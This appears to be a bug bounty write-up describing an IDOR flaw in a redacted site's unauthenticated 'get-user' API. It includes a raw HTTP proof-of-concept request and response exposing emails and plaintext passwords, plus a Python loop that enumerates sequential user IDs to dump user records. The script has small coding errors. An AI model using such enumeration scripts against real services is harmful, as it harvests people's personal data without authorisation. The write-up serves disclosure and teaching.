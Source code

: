 ```yaml
---
title: "How Poor Authentication Led to Massive User Data Leakage: A Security Flaw Exposed"
date: 2023-07-04 09:15:00
mermaid: true
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://secure.static.tumblr.com/ef2e2596c4ea072a60453d23ceab337f/coctv14/Y6Ln55n03/tumblr_static_azgsowaz948okgow4c4o8go8c.gif
---
```


Missing authentication leads to user data leakage, data security is one of the most important concerns for digital platforms. However, vulnerabilities that can be exploited by malicious actors are still commonly found. One such vulnerability is the lack of proper authentication on APIs, which can lead to user data leakage. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## The User Data Leakage Case

This article recounts the experience of a security researcher who managed to access and leak user data from an application simply by exploiting a weakness in the authentication system. The researcher conducted basic testing on the app by observing system behavior and detecting a vulnerability that allowed access without sufficient authentication.

## Step One: Initial Research

My first step was to explore the target application. In this test, I used the [BurpSuite](https://portswigger.net/burp) tool to comb through the application and identify potential gaps, such as APIs that do not require authentication to access user data. This creates an opportunity for an attacker to exploit personal information, such as a user's email and password, by simply changing the user ID in the URL. The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a `POST` api request to the path `/api/landing-page/get-user`

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## The Security Flaw: IDOR (Insecure Direct Object Reference)

The flaw discovered in this case was an [Insecure Direct Object Reference (IDOR)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://portswigger.net/web-security/access-control/idor&ved=2ahUKEwijl6LX5auMAxXFXmwGHYenEmMQFnoECAkQAQ&usg=AOvVaw1iGLeSV-Hu4-CW8fpbEgFg) a vulnerability that allows attackers to access other users' data by manipulating the ID parameter in API requests. In this case, the attacker only needed to change a number in the URL used to access user data, such as changing `userID=1` to `userID=2` to access data for a different user.

## Accessing and Leaking Data

By using this simple technique, the researcher was able to access user data on a large scale. The leaked data included sensitive information such as users’ email addresses and passwords. The researcher also realized that the system did not impose restrictions or protections against unauthorized access. As a result, the potential for data leakage was significantly increased, especially if the attacker knew or guessed valid user IDs.

I knew that the user ids used were not random but sequential so I wrote [python](https://www.python.org) code to leak every registered user's data on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## The Impact of Data Leakage

Data leakage like this can have severe consequences. Exposed personal information can be used for various cybercrimes, including identity theft, fraud, or even further attacks that cause greater damage. For companies, such data breaches can harm their reputation, lead to legal consequences, and result in a loss of user trust.

## Preventing Data Leakage

Preventing data leakage caused by IDOR and other authentication flaws can be achieved with several measures:

* Implement Strong Authentication: Every API accessing sensitive data should be protected by strong and proper authentication. Using tokens or session-based authentication is an important first step.

* Access Validation: Ensure that users can only access their own data. The system must verify that the user ID provided in the API request matches the user who is making the request.

* Regular Security Testing: Conduct routine security tests, including penetration testing and code audits, to identify and patch vulnerabilities early.

* Security Training for Developers: Developers need to be thoroughly educated about potential vulnerabilities and the importance of securing APIs and authentication.

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png){: .shadow }
_Rewarded by the program_

## Conclusion
Data leakage due to insufficient authentication can occur due to fundamental errors in system design. This case demonstrates the importance of always verifying access and protecting user data with the proper technology. By implementing the right preventive measures, the risk of data leakage can be minimized, and applications can operate more securely and earn the trust of users.